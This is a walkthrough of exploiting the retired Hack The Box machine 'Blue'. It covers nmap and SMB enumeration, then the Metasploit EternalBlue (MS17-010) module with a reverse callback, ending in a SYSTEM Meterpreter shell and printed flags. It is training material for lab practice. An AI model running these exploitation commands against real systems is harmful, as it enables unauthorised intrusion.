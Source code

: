 ```yaml
---
title: "Blue (HTB) — Walkthrough"
date: 2025-09-17
tags: ["htb","windows","smb","ms17-010","privesc"]
series: ["Hack The Box — retired"]
difficulty: "Easy"
platform: "Hack The Box"
summary: "Exploiting MS17-010 (EternalBlue) on a Windows 7 SP1 target. Recon, SMB enumeration, exploitation, and proof of SYSTEM access."
images: ["/images/blue/blue.webp"]
cover:
  image: "/images/blue/blue.webp"
  alt: "Blue HTB image"
  caption: "Blue - CTF - Hack The Box"
  relative: true
  hidden: false

---
```


> ⚠️ **Spoiler warning**: This covers a retired HTB machine. IPs and hostnames are redacted. This writeup documents my playthrough of the retired Hack The Box machine **Blue**. 

The VPN IPs shown below are the HTB-assigned VPN addresses used during the box (left intact here for reproducibility). Do not attempt this on non-authorised or active systems.

# Blue (HTB) — Walkthrough

## Overview
- **Platform:** Hack The Box (retired)  
- **Target OS:** Windows 7 Professional SP1  
- **Focus:** SMB enumeration → EternalBlue (MS17-010) → SYSTEM shell  
- **Difficulty:** Easy

---

## Recon

Initial scan:

```bash
nmap -sV -sC -oN scans/blue-initial 10.129.242.117
```
**Result highlights (relevant line)**

445/tcp   open  microsoft-ds  Windows 7 Professional 7601 Service Pack 1
A full scan confirmed SMB was exposed and appeared to be running SMBv1.
![Nmap ports output showing SMB 445 open](/images/blue/nmap.png)


---

## SMB Enumeration

**Anonymous enumeration with enum4linux**

```bash
enum4linux -a 10.129.242.117
```
![enum4linux for SMB enumeration](/images/blue/smb_enumeration.png)

![enum4linux interesting output](/images/blue/smb_enumeration.png)

**Anonymous SMB session also succeeded**

```bash
smbclient -L //10.129.242.117/ -N
```

Shares observed:

ADMIN$    C$    IPC$    Share    Users

Given Windows 7 + SMBv1 exposure, EternalBlue (MS17-010) looked likely.
![SMB shares](/images/blue/smb_shares.png)

---

## Exploitation (MS17-010 / EternalBlue)

Check target with Metasploit's SMB version scanner:

```msfconsole
msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 10.129.242.117
msf6 auxiliary(scanner/smb/smb_version) > run
```
**Confirmed vulnerable** 

[+] 10.129.242.117:445 - Host is running Windows 7 Professional SP1
![Metasploit auxiliary module - SMB scanner](/images/blue/metasploit_scanner.png)


**Host is likely VULNERABLE to MS17-010!**

---

## Launch the exploit:

```msfconsole
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.129.242.117
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.5
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```
![Metasploit exploit module - ms17_010_eternalblue](/images/blue/metasploit_exploit.png)


**Success:**

[+] Meterpreter session 1 opened
![Meterpreter session to shell](/images/blue/meterpreter_shell.png)


---

## Privilege Escalation

Drop into an interactive shell from Meterpreter:

```meterpreter
meterpreter > shell
```
```interactive shell
C:\Windows\system32> whoami
```
**Result:**

nt authority\system
The exploit provided full SYSTEM privileges.

**User flag:**

```interactive shell
C:\Users\haris\Desktop> type user.txt
```
"1b3265edfce880834b5e8e8fc8ac5a18"
![User flag found](/images/blue/user-flag.png)

**Root flag:**

```interactive shell
C:\Users\Administrator\Desktop> type root.txt
```
"76a957ccd469d05e2883b49b77079847"
![Root flag found](/images/blue/root-flag.png)

---

## Takeaways

Always check SMB version — legacy SMBv1 is a red flag.

EternalBlue is a classic exploit; patched since 2017, but still useful to study.

Metasploit automates exploitation, but understanding the underlying vulnerability (buffer overflow in SMBv1) is important.

Enumeration (enum4linux, smbclient) confirmed access, but exploitation was the real path in this box.

---

## Resources

MS17-010 (Microsoft Security Bulletin).

Hack The Box — retired machines archive.

My GitHub repo (basil9099.github.io) with scans/notes.

